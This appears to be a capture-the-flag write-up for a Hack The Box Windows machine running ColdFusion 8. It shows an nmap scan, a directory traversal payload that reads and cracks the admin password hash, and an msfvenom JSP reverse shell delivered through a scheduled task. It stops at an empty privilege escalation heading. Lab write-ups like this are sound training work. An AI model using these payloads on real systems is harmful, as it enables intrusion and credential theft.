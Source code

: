first enumeration with nmap 

```
# Nmap 7.93 scan initiated Thu May 18 21:37:02 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 135,8500,49154 -Pn 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 18 21:39:25 2023 -- 1 IP address (1 host up) scanned in 143.20 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3cef4adf-938f-45bf-b8ed-40b7e96c9c33)

noticed a web server running on port `8500`, opening it on a browser we got to see to dirs.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/79262d67-745f-442c-96e7-4e25cd960869)

navigating to the first dir, got to see some hidden dirs. let's check out the `administrator` dir.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/370e740d-cc0b-468c-8d4a-476e1eb2659e)

we can see the administrator page is running an `Adobe cold fussion 8` service. let's check for exploits.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0e0a12c1-0d98-4b8c-8295-1f4f499d00a5)

with a little research, found out that it is vuln to a `Directory Traversal` attack. [exploit](https://www.exploit-db.com/exploits/14641).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/eba38a7d-5d9c-4b50-ac2d-2d8f6cc7a395)

using payload `/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en` we're able to read the password hash of this service. let's crack this hash.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/090e82e0-2224-452b-802e-e8a22a677aa7)

using an online hash cracker, we are able to crack the hash. `happyday`. let's login using this password.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/aa927087-fd9f-4081-9aec-76e006b3eafa)

cool we're in the administrator panel, let's play around and find a way to get shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b1c6b682-a440-4b45-88a3-143766222ec4)

navigate to the task schedule button and click schedule new task button.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Artic]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=445 -f raw -o shell.jsp
Payload size: 1496 bytes
Saved as: shell.jsp
```
first we generate a jsp reverse shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0feb9ac2-e596-4183-96f5-e2e6197440b1)

add a new task, set up a python listener, so it will download the shell and output it to the dir `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`. click on submit

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/89043d60-36f0-415b-abc3-e2b66670c687)

fire up ncat listener and hit the run button. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9616bf24-762e-499f-a1c4-568f4a8efe25)

now let's navigat to the uploaded payload so it will trigger a reverse shell.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Artic]
└─$ ncat -lnvp 445                                                                 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::445
Ncat: Listening on 0.0.0.0:445
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49589.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```
check back ncat listener and Boom we got reverse shell as `arctic\tolis`


## Privilege Escalation





